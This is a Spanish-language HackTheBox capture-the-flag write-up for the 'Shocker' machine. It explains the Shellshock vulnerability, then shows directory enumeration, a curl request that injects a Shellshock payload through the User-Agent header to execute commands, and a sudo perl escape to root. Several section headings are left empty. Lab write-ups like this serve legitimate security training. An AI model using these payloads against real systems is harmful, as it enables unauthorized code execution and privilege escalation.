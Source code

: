```yaml
---
layout: single
title:  Shocker
excerpt: "Maquina Shocker de la Plataforma HackTheBox, posee una dificultad facil con una vulnerabilidad bastante conocida que la época en que fue descubierto afectó a millones de servidores. públicos"
date: 2021-07-20
classes: wide
header:
    teaser: /assets/images/que-es-un-socket-y-como-funciona/portada.png
    teaser_home_page: true
categories:
    - WriteUp
tags:
    - Linux
    - HTB
---
```



# Sistema Vulnerable: 10.10.10.56
## Explicacaión de la vulnerabilidad.
Shellshock apareció por primera vez en septiembre de 2014. Hubo informes de ataques a las pocas horas de la divulgación inicial de la vulnerabilidad, y en los días siguientes, hubo millones de ataques y sondeos provenientes de botnets.  
Bash es un shell o intérprete que permite que los comandos se ejecuten en un sistema, generalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix, y como tal, se puede encontrar en Linux, macOS y otros varios sabores de Unix. Esta es la razón por la que Shellshock es tan grave: más de la mitad de los servidores web en Internet ejecutan Unix, sin mencionar una gran cantidad de dispositivos IoT e incluso algunos enrutadores/módems.  


Esencialmente, Shellshock funciona al permitir que un atacante agregue comandos a las definiciones de funciones en los valores de las variables de entorno. Esto se clasificaría como un tipo de ataque de inyección de código, y dado que Bash procesará estos comandos después de la definición de la función, se puede ejecutar casi cualquier código arbitrario.  
Shellshock es en realidad una familia completa de vulnerabilidades que consiste en múltiples vectores de explotación.  

[https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit)


## Vulnerabilidad de escalamiento de privilegios:

## Corrección de la vulnerabilidad:

## Gravedad : Crítica:

## Prueba de concepto:

### Enumeración:

### Punto de apoyo:

### Obteniendo shell inversa:

### Obteniendo sesión de usuario:

### Escalada de privilegios:

```bash
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/FUZZ -c -t 200
                                                                                                                          
        /'___\  /'___\           /'___\                                                                                   
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                   

       v1.3.0 Kali Exclusive <3
________________________________________________                              
                                                                                              
 :: Method           : GET                                                                    
 :: URL              : http://10.10.10.56/FUZZ                                                                            
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt                           
 :: Follow redirects : false                                                                  
 :: Calibration      : false                                                                  
 :: Timeout          : 10                                                                                                 
 :: Threads          : 200                                                                    
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                 
________________________________________________                                    
                                                                                              
                        [Status: 200, Size: 137, Words: 9, Lines: 10]                   
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]                                                    
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]                        
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]                        
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]                                                     
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]                                                    
:: Progress: [4615/4615] :: Job [1/1] :: 597 req/sec :: Duration: [0:00:04] :: Errors: 0 ::   

```

```
   ~/boxes/HACKTHEBOX/shocker/temp2 ❯ gobuster dir -q -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,py,pl,cgi -t 200 
http://10.10.10.56/cgi-bin/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.py (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.py (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.hta (Status: 403)
http://10.10.10.56/cgi-bin/.hta.sh (Status: 403)
http://10.10.10.56/cgi-bin/.hta.py (Status: 403)
http://10.10.10.56/cgi-bin/.hta.pl (Status: 403)
http://10.10.10.56/cgi-bin/.hta.cgi (Status: 403)
http://10.10.10.56/cgi-bin/user.sh (Status: 200)


$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:20:37 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00


$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)


$ python3 -c "import pty;pty.spawn('/bin/bash')"
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)

```
